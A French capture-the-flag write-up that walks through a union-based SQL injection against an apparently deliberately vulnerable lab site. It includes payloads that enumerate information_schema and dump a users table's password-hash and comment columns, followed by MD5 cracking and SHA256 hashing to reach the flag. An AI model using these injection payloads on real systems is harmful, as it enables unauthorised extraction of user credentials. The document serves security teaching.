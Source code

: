 # SQL Injection - User Data Extraction

## Description
Cette vulnérabilité exploite une injection SQL pour extraire des données sensibles.

## Exploitation

### Étape 1: Découverte de la structure de la base de données
Nous utilisons une injection SQL pour récupérer toutes les tables et colonnes dans toutes les bases de données accessibles :

```sql
1 UNION SELECT table_name, column_name FROM information_schema.columns;
```

Cette requête nous permet de mapper complètement la structure de la base de données.

### Étape 2: Identification de la table cible
Parmi les résultats, nous identifions une table prometteuse : `users` qui contient plusieurs colonnes intéressantes :
- `user_id`
- `first_name`
- `last_name`
- `town`
- `country`
- `planet`
- `Commentaire`
- `countersign`

### Étape 3: Confirmation de la base de données courante
En analysant le comportement de la page dans laquelle nous sommes (là où nous faisont les injections SQL), on remarque que lors d'une recherche par ID, nous obtenons un `first_name` et un `last_name`. Cela suggère que nous sommes déjà dans la base de données contenant la table `users`.

### Étape 4: Extraction des données sensibles
Après plusieurs essais, nous trouvons que les colonnes `countersign` et `Commentaire` contiennent des données sensibles.

```sql
1 UNION SELECT countersign, commentaire FROM users;
```

### Résultats obtenus
Cette requête nous retourne le résultat suivant à la fin de la liste :

```text
ID: 1 union select countersign,commentaire from users;
First name: 5ff9d0165b4f92b14994e5c685cdce28
Surname : Decrypt this password -> then lower all the char. Sh256 on it and it's good !
```

### Étape 5: Analyse du résultat
Le résultat révèle :
- **Un message crypté** : `5ff9d0165b4f92b14994e5c685cdce28`
- **Des instructions** : "Decrypt this password -> then lower all the char. Sh256 on it and it's good !"

### Étape 6: Déchiffrement et transformation
Suivant les instructions fournies :

1. **Déchiffrement MD5** :
   ```
   5ff9d0165b4f92b14994e5c685cdce28 → "FortyTwo"
   ```

2. **Conversion en minuscules** :
   ```
   "FortyTwo" → "fortytwo"
   ```

3. **Hachage SHA256** :
   ```bash
   echo -n "fortytwo" | sha256sum
   ```

On obtient le flag après hachage SHA256: `10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`
